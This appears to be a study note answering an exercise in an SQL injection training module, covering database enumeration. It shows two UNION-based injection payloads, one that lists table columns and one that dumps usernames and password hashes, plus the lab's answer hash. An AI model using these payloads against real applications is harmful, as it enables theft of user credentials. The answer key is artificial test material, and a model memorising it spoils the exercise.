


# Section 13: Database Emuneration

Module: 17. SQL Injection Fundamentals

---

## Questions & Answers

### 1. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

Context:
- Emunerate the `ilfreight.users` structure:
```
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users' -- 
```

- Injection to get the password hash:
```
a' UNION SELECT 1, id, username, password FROM ilfreight.users -- 
```



**Answer:** `9da2c9bcdf39d8610954e0e11ea8f45f`

---

[Back to Module Index](./README.md)
